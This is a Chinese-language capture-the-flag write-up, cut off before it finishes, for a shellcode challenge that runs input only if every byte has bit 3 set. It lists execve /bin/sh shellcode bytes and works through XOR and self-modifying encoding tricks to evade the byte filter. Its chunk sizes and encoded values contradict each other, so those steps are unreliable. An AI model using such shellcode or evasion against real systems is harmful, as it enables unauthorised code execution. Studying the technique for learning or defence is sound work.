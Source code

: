 # Shellcode 2

上一版本的 Shellcoder 说：「Maybe next time we should add more architectures」…

我还以为 Shellcoder 2 会要求「三种不同架构」的共通语呢…

这次直接就是个 C 程序了。

大概是这样的：

```python
# 不是 Python，只是借用一下语法…
def main(argc: int, argv: list[str]) -> int:
    setbuf(_bss_start, 0);
    print("Welcome to 0ops shellcode trilogy.")
    print("This is shellcode II: Emission of light")
    print("Input your shellcode:")
    buf = mmap(addr='wherever', size=0x1000, prot=['read', 'write', 'exec'], flags=['anonymous', 'shared'], fd=0, offset=0)
    read('cin', buf, 0x1000)
    
    for ch in buf:
        if not ch & 8:
            print("I'm so foolish that I don't recognize this genius shellcode")
            exit(-1)
    
    # just execute it fine
    execute(buf)
```

也没有加很多限制，除了……输入的 Shellcode 中的每一个字节的（从低到高数）第 4 位必须是 1。

> 魔鬼…魔鬼…

先打开 Shell Storm 找一下有没有合用的吧…

先来一个最短的看一下：

```assembly
--[ asm
6a 42                   push   0x42
58                      pop    rax
fe c4                   inc    ah
48 99                   cqo
52                      push   rdx
48 bf 2f 62 69 6e 2f    movabs rdi, 0x68732f2f6e69622f
2f 73 68
57                      push   rdi
54                      push   rsp
5e                      pop    rsi
49 89 d0                mov    r8, rdx
49 89 d2                mov    r10, rdx
0f 05                   syscall
```

这可只有 29 个字节啊！

Python 跑一遍，这些字节不符合：

```
bad code 0x42
bad code 0xc4
bad code 0x52
bad code 0x62
bad code 0x73
bad code 0x57
bad code 0x54
bad code 0xd0
bad code 0xd2
bad code 0x5
```

其他都可能还可以绕过…但是你这个！`05`！居然！不能用！

`syscall`（`0f 05`）怎么绕得过去啊！

随手敲了一下，发现这个笨蛋程序不会过滤换行符。就算什么也不输入，他也会被这个 `\n` 绊死。

想要 Pwn？原程序很好地使用了 `read(STDIN, buf, 0x1000)` 的方式来规避 Buffer Overflow。

不过这也给了我们一个办法：只要发送超过 `4096` 个字符，那么超长的字符（包括 `\n`）就会被丢弃。

> 用这种勉强的办法来绕过 `code & 8` 限制…

另外，[这里](https://stackoverflow.com/questions/34110045/shellcode-with-restrictions) 有个非常类似的例子：32 位机器下面，0x80 被 Ban 了，不能在 Shellcode 的任何位置出现。

这里是她提供的一种替代手法：

```assembly
format ELF executable
use32
entry start

segment executable  writeable
  start:
  ;<some code>
  inc byte [ here + 1 ] ;<or some other math>
  jmp here
here:
  int 0x7f
segment readable  writeable
```

简而言之，就是利用到了 `buf` 不仅可执行，还是可写的特性。这允许程序在运行时动态修改自身。

> 我大概明白为什么这是病毒常见的行为模式了。

这种办法在 Banned 位不多的情况下还是可行的。假如仅仅是拒绝了 `0x80` 或者是 `0x0f`、`0x05`，都不至于像这般悲剧。

主要问题是，这样生成的代码必然会带有间接寻址。换句话说，会有大量的前缀 `0` 存在。因此这种方法是不太可行的。

[这里](https://h0mbre.github.io/LTER_SEH_Success/) 还有另一种 Forbidden Shellcode 的绕过方法，就比较接近我们的情况了。她禁止掉了所有的不可打印字符。

而我们这里是禁止掉了所有低第 4 位是 0 的字节。

> 幸好，`xor` 幸免于难。

按照这种一般化的绕过方法，我们首先需要置空一个寄存器。

如果用我们熟悉的 `rax`，就会生成一个 `\xc0` Byte，不合要求。

所以勉为其难地用一下 `rcx` 好了。这样得到的结果就是

```assembly
0:  48 31 c9	# xor    rcx,rcx
```

> [这个](https://defuse.ca/online-x86-assembler.htm#disassembly) 在线 Assembler & Disassembler 真是太好用

然後，我们得拿一串需要编码的 Shellcode。

> 越短越好。不想折腾太长的。

摸一个 21 Bytes 的：

```assembly
shellcode:     file format elf64-x86-64
Disassembly of section .text:
0000000000400080 <_start>:
  400080:       f7 e6                   mul    %esi
  400082:       50                      push   %rax
  400083:       48 bf 2f 62 69 6e 2f    movabs $0x68732f2f6e69622f,%rdi
  40008a:       2f 73 68 
  40008d:       57                      push   %rdi
  40008e:       48 89 e7                mov    %rsp,%rdi
  400091:       b0 3b                   mov    $0x3b,%al
  400093:       0f 05                   syscall 
;================================================================================
```

也就是：

```python
shellcode = "\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
```

然后把它分成 8 字节一组的 Chunk，并且把其中每个 Chunk 都倒置。为了避免不必要的麻烦，这里在右端补 `0x48`。

```python
['HHH\x05', '\x0f;°ç', '\x89HWh', 's//n', 'ib/¿', 'HPæ÷']
```

这样，从右到左读我们应该能刚好读出我们的目标 Shellcode 才对。

把每一个 4 Bytes 组都写成 32 位无符号整数的形式，我们可以得到该往 Stack 里放的东西：

```python
>>> magic_numbers
[20345673995759847, 9892252687639981934, 7593684420298598135]
```

或者，你可能会更喜欢：

```python
>>> [hex(v) for v in magic_numbers]
['0x4848485f3bb0e7', '0x89485768732f2f6e', '0x69622fbf4850e6f7']
```

现在的问题就是，如何在不犯规的情况下，把这些值放到映射内存中去。

首先，我们可以用 XOR 位操作，在某个寄存器中放入任意的值。

这里的限制，作用到寄存器里实际上就是「某些位必须是 1」。那么，简单用 XoR 做一下就好了。

那么，只要我们首先将 `%rsp` 设置为特殊的值，在需要的地方用 `push` 把数字写入内存（倒序地！）就可以实现任意内存的写入。

> 但是，这里又遇到一个问题：`push` 的指令代码不合法。没有办法用这种手段来把关键性的 `push` 代码纳入。

换种思路：我们把可以用的 Gadgets 都找出来，确认哪些合法。